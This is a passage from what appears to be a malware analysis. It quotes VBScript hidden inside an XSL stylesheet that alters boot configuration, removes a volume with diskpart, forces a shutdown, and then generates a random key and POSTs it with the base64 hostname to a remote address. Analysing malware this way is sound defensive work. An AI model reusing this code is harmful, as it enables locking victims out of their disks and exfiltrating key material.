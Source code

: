 ```vbscript
							End If
							Else
							Exit for
							End If
						Next
					Next
				if shrinkcomplate = "ok" then
				Exit For
				End if
				Next
				Set colLogicalDisksAfter = objWMIService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType = 3")
						For Each objDiskAfter In colLogicalDisksAfter
							Dim driveExists1: driveExists1 = False
							For Each objDiskBefore In colLogicalDisksBefore
								If objDiskAfter.DeviceID = objDiskBefore.DeviceID Then
									driveExists1 = True
									Exit For
								End If
							Next
							If Not driveExists1 Then
								strDriveLetter = objDiskAfter.DeviceID
								Exit For
							End If
						Next
						If Len((CreateObject("WScript.Shell").Exec("bcdboot " & Driveletters & "\windows /s " & strDriveLetter)).stdout.readall) > 0 Then: End If
				set remove = CreateObject("WScript.Shell").Exec("diskpart")
				remove.StdIn.WriteLine("Select Volume " & strDriveLetter & vbCrLf)
				remove.StdIn.WriteLine("remove" & vbCrLf)
				remove.StdIn.WriteLine("exit" & vbCrLf)
				If Len(remove.stdout.readall) > 0 then
				For Each Os in GetObject("winmgmts:").ExecQuery("SELECT * FROM Win32_OperatingSystem"): os.Win32Shutdown(6): Next
				WScript.Sleep 6000000
				end if
				
	else
	end if
]]></ms:script>
</stylesheet>
```

The script included a section that generated a random string using a seed based on system properties, which was then sent via a `POST` request to `updatelog`, along with the hostname in base64 format.
```vbscript
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next

Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
```